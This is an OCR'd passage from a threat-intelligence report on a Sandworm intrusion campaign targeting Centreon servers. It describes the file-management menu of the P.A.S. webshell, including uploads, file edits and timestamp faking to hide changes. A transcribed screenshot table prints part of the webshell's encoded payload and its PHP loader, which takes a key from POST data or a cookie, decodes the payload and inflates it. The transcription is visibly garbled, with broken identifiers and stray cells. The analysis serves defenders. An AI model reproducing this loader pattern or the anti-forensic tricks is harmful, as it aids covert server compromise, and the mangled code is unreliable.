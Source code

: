 The first webshell menu regroups file handling tasks. It offers the following actions:

- list files and several of their characteristics such as extension, file size, ownership or permissions;
- · interact with a file to to move, copy, delete or download it;
- · rename a file;
- · create a new file or modify an already existing file;
- · upload a file on the compromised host.

#### Sandworm intrusion set campaign targeting Centreon systems

| Fig. 2.4: Snapshot of the Explorer menu of P.A.S. |
| --- |

Fig. 2.4: Snapshot of the Explorer menu of P.A.S.

When editing a file, it is possible to:

- change its permissions;
- change its group;
- change its last modification date.

Regarding the last options, if the file does exists, by default the last modification date is set to the original file last modification date. If not, the webshell uses the last modification date of the folder.

| Searcher | Explorer | SOL-client | Network Tools | nasswd BruteForce Server info | CMD |  |  |
| --- | --- | --- | --- | --- | --- | --- | --- |
| /var/www/html/webshell/ | Go to : |  |  |  |  |  |  |
| Jump : /var/www/html/webshell/ |  |  |  |  |  |  |  |
| Show as image | Edit file |  |  |  |  |  |  |
| /var/www/html/webshell/fobushell.php |  |  |  |  |  |  | Save |
| A COUNTY COLLUMNULU/ LULUMNULU/ LUFULAUN/WANI WA VI 7/ IW   VO/ LITEMAPLACELLA UVANIYAS VIII LUTA |  |  |  |  |  |  |  |
| F8CVbqzMP\ZRtV+ag1ArPbF\D2UikhRto//HjXeD7K7GJdhocxNtKhos5XYfAEkvrK5WCzGTz40u/fdK |  |  |  |  |  |  |  |
| /00wpPCxGfFx6r1r0wcidDGuHRAW3e48R6vWUhabuLdf+Bnik4Y1zmi9CutR4AaH01N7U08jeknaY4hB |  |  |  |  |  |  |  |
| +AChEf6f/VX9PBF3jPR4bW5Ujm7V6aiFpkvvhzi9c5IbskZ3RifBNgAE4TRt04dcFf0vfSH7Vv7t5mnf |  |  |  |  |  |  |  |
| z93vufTw1mI/1Vr126FA0wKOF3o0αKvuDRMpRJY0R9vLd+0Cnat8YEJ1ci+2b51aUu+mArQ0h0f/RzZs |  |  |  |  |  |  |  |
| M95hCmoSt405Cb1EXMX4DI3WibMc8oKP4HHDJa0WumSwWtnoV0sZ5uLVrKcvTJAlZY7ArhAu0Moevz0L |  |  |  |  |  |  |  |
| 0HuSMNu/cKeZ6lVmktr2U0eiccahi5EI6l+RnixNPVZw4flhmZbBdsEZ00DdaJf/FA7g5Vzi3BDknae+ |  |  |  |  |  |  |  |
| α3vICBUwrDnzOk2C1ve8xJ9+AlV1Av/QaIiN7ZaDRCW/GJ015Auks6IeGC/1nJNptFkSeivv/v62HnFk |  |  |  |  |  |  |  |
| 0oamWUbTG+x6HbCM8ZpUBN55bnnaJ5xp0RzE6tnACdgBM+6F5buFPodvhasiWdw8iJtuJaaeI/exR16A |  |  |  |  |  |  |  |
| NTB+QZFo8amjLTpdwnPXoT/sTP0m/IwGjDmujUt6H3hDQAIXOHH08DWq420aModxvrq0eZkhLqJESQGL |  |  |  |  |  |  |  |
| UEgLNDE61YVDHiOIblHllF+47fGp6ctF/3rM8azaZ/GY6XETnHmG182oxgi3KQGY5iNUSJgdygQfKLWb |  |  |  |  |  |  |  |
| D08379L0kdFs2t2VfzBWxnEdNUVAduH6GR81rdyIc+cp2Jwg+lH3k0JPXmeP+s1Kq6U3udk4vsPzkJIv |  |  |  |  |  |  |  |
| eWhBbvRe4X+B9Wn7LA0fOT2p1aYA0oV//05DgiziKs8LcGood7WI4TD+NkMlsXbC6StOnJZQVsPdKH2f |  |  |  |  |  |  |  |
| aaa92YawCGOSsDAU9STqPDshcLFrMtuIhp4nDiF4M04gRLw5eZbDM8l1G+x41balWnrCi9VZzAAJW8vg |  |  |  |  |  |  |  |
| 08hRCZ+CHB916H1VCRv+dhgqx05ibVajIQSHrbqPqq== |  |  |  |  |  |  |  |
| '));$g g =isset($ POST('g g ')/?$ POST['g g '];(isset($ COOKIE['g g '])?$ COOKIE['g g ']:WULL);if($g g !==MULL) |  |  |  |  |  |  |  |
| ($g_g_=md5($g_g_),substr(MD5(strrev($g_g_)),0,strlen($g__g_));for($g_______ _ = 15571;$g______ _ +){$g__ |  |  |  | a (sq |  | a  =chr(( |  |
| ord($g_g_g_($g_g_l)-ord($g_g_($g_g_l))%256);$g_g_=$g_g_l;}if($g__g_egzinflate($g_ |  |  |  | 9 1) |  |  |  |